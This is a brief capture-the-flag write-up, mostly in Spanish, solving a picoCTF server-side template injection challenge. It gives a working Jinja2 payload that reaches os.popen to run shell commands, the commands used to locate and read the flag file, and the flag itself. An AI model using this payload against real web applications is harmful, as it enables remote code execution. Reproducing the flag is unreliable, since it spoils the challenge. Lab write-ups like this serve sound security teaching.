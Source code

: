 I made a cool website where you can announce whatever you want! Try it out!

Additional details will be available after launching your challenge instance.

Hints:
- Server Side Template Injection

## Solución
En el input, se probó el payload {{ 7\*7 }} y devolvió 49, por lo tanto, es vulnerable a la inyección de código de templates, como el que se usa en Flask o Django.

Con este payload: 
`{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}`

Se pueden ejecutar comandos.
Primero se ejecutó `ls /root` para averiguar si se puede acceder, pero no se pudo. Luego, se intentó `sudo -l`, pero tampoco se obtuvo nada. Después se ejecutó `pwd` para averiguar en que carpeta se encontraba por defecto, y devolvió `/challenge`. Con esto, se ejecutó `ls` y se descubrió el archivo `flag`, y finalmente con el comando `cat flag` se obtuvo la bandera.

`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bd4cfc64}`